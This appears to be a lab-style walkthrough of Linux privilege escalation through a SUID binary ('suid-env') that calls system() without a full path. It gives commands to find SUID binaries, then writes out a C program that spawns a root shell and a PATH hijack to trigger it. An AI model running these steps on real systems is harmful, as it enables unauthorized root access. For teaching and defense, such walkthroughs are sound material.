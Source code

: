### Detection
##### Find SUID binaries
```
find / -type f -perm -04000 -ls 2>/dev/null
```

- **-04000**: Find files where at least the `setuid` bit is set. Without it would mean to find exactly find the permission bits `04000` set and nothing else which is rare.
- **-ls**: It tells `find` command to run the `ls` action for each matching file, similar to running `ls -l`.

##### Note the SUID binaries
SUID binary found from the above command is 
```
/usr/local/bin/suid-env
```

##### Check the Binary's Function
```
strings /usr/local/bin/suid-env
```

- `setresgid` and `setresuid`: If a binary uses these functions, it can ***change its user and group ID to root (0)***.
- `system`: If the binary uses `system()`, it might be vulnerable to ***environmental manipulation*** (setting a malicious PATH).

### Exploitation
##### Create a Malicious C Program
```
echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

- `setgid(0)` and `setuid(0)` set the process's group ID and user ID TO 0.
- `system("/bin/bash")` launches a root shell.

##### Compile the Malicious C Program
```
gcc /tmp/service.c -o /tmp/service
```

##### Modify the PATH Environment Variable
```
export PATH=/tmp:$PATH
```

- Modifies the `PATH` environment variable to prioritize `/tmp` over other directories.

##### Execute the SUID binary
```
/usr/local/bin/suid-env
```